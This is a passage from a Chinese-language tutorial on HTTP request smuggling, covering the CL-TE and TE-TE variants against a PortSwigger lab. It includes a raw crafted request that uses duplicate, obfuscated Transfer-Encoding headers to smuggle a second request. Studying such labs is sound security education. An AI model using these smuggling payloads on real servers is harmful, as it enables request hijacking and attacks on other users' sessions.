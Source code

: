 ![1594912316](http%E8%B5%B0%E7%A7%81/1594912316.png)

由于前端服务器处理`Transfer-Encoding`，当其读取到`0\r\n\r\n`时，认为是读取完毕了，此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理`Content-Length`请求头，当它读取完`12\r\n`之后，就认为这个请求已经结束了，后面的数据就认为是另一个请求了，也就是

```
GPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

成功报错。

### 3.5 TE-TE

`TE-TE`，也很容易理解，当收到存在两个请求头的请求包时，前后端服务器都处理`Transfer-Encoding`请求头，这确实是实现了RFC的标准。不过前后端服务器毕竟不是同一种，这就有了一种方法，我们可以对发送的请求包中的`Transfer-Encoding`进行某种混淆操作，从而使其中一个服务器不处理`Transfer-Encoding`请求头。从某种意义上还是`CL-TE`或者`TE-CL`。

Lab地址：https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header

构造数据包

```
POST / HTTP/1.1\r\n
Host: ac4b1fcb1f596028803b11a2007400e4.web-security-academy.net\r\n
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0\r\n
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n
Accept-Language: en-US,en;q=0.5\r\n
Cookie: session=Mew4QW7BRxkhk0p1Thny2GiXiZwZdMd8\r\n
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```
